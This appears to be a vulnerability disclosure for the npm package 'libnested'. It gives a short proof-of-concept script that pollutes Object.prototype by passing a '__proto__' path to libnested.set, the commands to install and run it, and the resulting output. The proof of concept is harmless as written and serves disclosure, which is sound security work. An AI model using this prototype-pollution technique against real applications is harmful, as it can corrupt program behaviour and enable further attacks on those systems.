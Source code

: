 # Description

`libnested` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var libnested = require("libnested")
var obj = {}
console.log("Before : " + {}.polluted);
libnested.set(obj, ['__proto__','polluted'], 'Yes! Its Polluted');
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i libnested # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
